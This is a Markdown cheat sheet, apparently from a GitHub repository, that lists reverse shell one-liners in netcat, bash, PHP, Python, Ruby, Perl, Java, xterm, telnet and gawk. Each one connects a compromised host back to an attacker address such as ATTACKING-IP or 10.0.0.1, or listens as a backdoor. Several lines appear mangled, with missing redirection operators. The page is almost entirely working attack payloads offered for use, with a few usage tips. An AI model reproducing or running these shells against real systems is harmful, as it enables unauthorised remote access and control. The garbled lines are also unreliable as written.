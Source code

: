 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> - **nc -e /bin/sh 10.0.0.1 1234**
>
> - **/bin/sh | nc ATTACKING-IP 80**
>
> - **rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p**
>
> If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
>
> - **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f**

## Bash Reverse Shells

> - **exec /bin/bash 0&0 2>&0**
>
> - **0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196**
>
> - **exec 5<>/dev/tcp/ATTACKING-IP/80**
>
>   **cat <&5 | while read line; do $line 2>&5 >&5; done**
>
> **or**
>
> - **while read line 0<&5; do $line 2>&5 >&5; done**
>
>
> - **bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1**

## PHP Reverse Shells

> - **php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'** <br>
      (Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
 
## PYTHON Reverse Shells

> - **python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**

## RUBY Reverse Shells

> - **ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'**

## PERL Reverse Shells

> - **perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'**
>
> ### PERL Windows Reverse Shell
>
> - perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' <br>
>
> - perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## JAVA Reverse Shells

> - **r = Runtime.getRuntime() <br>
> p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) <br>
> p.waitFor()**

## xterm Reverse Shells

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

> - **xterm -display 10.0.0.1:1**

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

> - **Xnest :1**

You’ll need to authorise the target to connect to you (command also run on your host):

> - **xhost +targetip**

## TELNET Reverse Shells

> - rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
>
> - telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

## GAWK Reverse Shells

>  #!/usr/bin/gawk -f
>
> BEGIN { <br>
>        Port    =       8080 <br>
>        Prompt  =       "bkd> "
>
>        Service = "/inet/tcp/" Port "/0/0" <br>
>        while (1) { <br>
>                do { <br>
>                        printf Prompt |& Service <br>
>                        Service |& getline cmd <br>
>                        if (cmd) { <br>
>                                while ((cmd |& getline) > 0) <br>
>                                        print $0 |& Service <br>
>                                close(cmd) <br>
>                        } <br>
>                } while (cmd != "exit") <br>
>                close(Service) <br>
>        } 
> }
